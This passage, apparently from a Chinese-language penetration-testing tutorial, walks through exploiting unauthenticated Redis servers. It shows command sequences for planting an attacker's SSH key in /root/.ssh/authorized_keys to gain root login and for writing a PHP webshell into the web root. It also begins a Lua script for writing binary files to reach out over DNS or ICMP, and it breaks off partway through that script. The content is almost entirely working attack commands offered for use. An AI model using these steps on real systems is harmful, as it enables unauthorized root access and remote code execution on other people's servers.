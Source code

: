 然后redis执行命令：

```
ssh-keygen -t rsa

(echo -e “\n\n”; cat id_rsa.pub; echo -e “\n\n”) > foo.txt

cat foo.txt | redis-cli -h x.x.x.x -x set crackit

redis-cli -h x.x.x.x

> config set dir /root/.ssh/

> config get dir

> config set dbfilename “authorized_keys”

> save `ssh -i id_rsa root@x.x.x.x` 
```

或者如下

```
192.168.63.130:6379> config set dir /root/.ssh/
192.168.63.130:6379> config set dbfilename authorized_keys
192.168.63.130:6379> set x "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKfxu58CbSzYFgd4BOjUyNSpbgpkzBHrEwH2/XD7rvaLFUzBIsciw9QoMS2ZPCbjO0IZL50Rro1478kguUuvQrv/RE/eHYgoav/k6OeyFtNQE4LYy5lezmOFKviUGgWtUrra407cGLgeorsAykL+lLExfaaG/d4TwrIj1sRz4/GeiWG6BZ8uQND9G+Vqbx/+zi3tRAz2PWBb45UXATQPvglwaNpGXVpI0dxV3j+kiaFyqjHAv541b/ElEdiaSadPjuW6iNGCRaTLHsQNToDgu92oAE2MLaEmOWuQz1gi90o6W1WfZfzmS8OJHX/GJBXAMgEgJhXRy2eRhSpbxaIVgx root@kali\n\n\n" `192.168.63.130:6379> save` 
```

##### (3).往web物理路径写webshell

当redis权限不高时，并且服务器开着web服务，在redis有web目录写权限时，可以尝试往web路径写webshell

```
192.168.63.130:6379> config set dir /var/www/html/
      192.168.63.130:6379> config set dbfilename shell.php
      192.168.63.130:6379> set x "<?php phpinfo();?>"
      192.168.63.130:6379> save 
```

即可将shell写入web目录(web目录根据实际情况

##### (4).写二进制文件，利用dns、icmp等协议上线（tcp协议不能出网）

From:http://www.00theway.org/2017/03/27/redis_exp/
写二进制文件跟前边有所不同，原因在于使用RDB方式备份redis数据库是默认情况下会对文件进行压缩，上传的二进制文件也会被压缩，而且文件前后存在脏数据，因此需要将默认压缩关闭，并且通过计划任务调用python清洗脏数据。

```
local function hex2bin(hexstr)
    local str = ""
    for i = 1, string.len(hexstr) - 1, 2 do
        local doublebytestr = string.sub(hexstr, i, i+1);
        local n = tonumber(doublebytestr, 16);
        if 0 == n then
            str = str .. '\00'
        else
            str = str .. string.format("%c", n)
        end
    end
    return str
end

local dir = redis.call(‘config’,‘get’,‘dir’)

redis.call(‘config’,‘set’,‘dir’,’/tmp/’)
```